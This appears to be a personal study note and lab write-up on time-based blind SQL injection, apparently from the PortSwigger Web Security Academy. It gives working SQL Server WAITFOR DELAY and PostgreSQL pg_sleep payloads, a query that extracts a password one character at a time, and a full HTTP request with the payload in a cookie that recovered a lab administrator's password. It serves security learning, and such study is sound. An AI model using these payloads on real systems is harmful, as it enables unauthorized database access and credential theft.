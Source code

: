 # Time based SQLi

In the preceding example, suppose that the application now catches database errors and handles them gracefully. Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

`'; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

## Lab 1

--> I tried different payloads for different languages and then i found the database as `postgresql`

--> Then i used this payload :

`'||(SELECT pg_sleep(10))--`

![](Attachments/Pastedimage20211003083304.png)

## Lab 2

--> we need to url encode our payload

```bash
GET / HTTP/1.1
Host: ac561f391f05b39780dc3ba500db005d.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: TrackingId=Z1vLE0dJIDLqmubp'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--; session=9C0MvWcMHNxQpDVq5C7najb7EK9vqN8M
Upgrade-Insecure-Requests: 1
```

--> i got these results

![](Attachments/Pastedimage20211003130049.png)

--> after sorting them i got the password !

`y40d3082rrsk1kpvbsds`

![](Attachments/Pastedimage20211003130007.png)
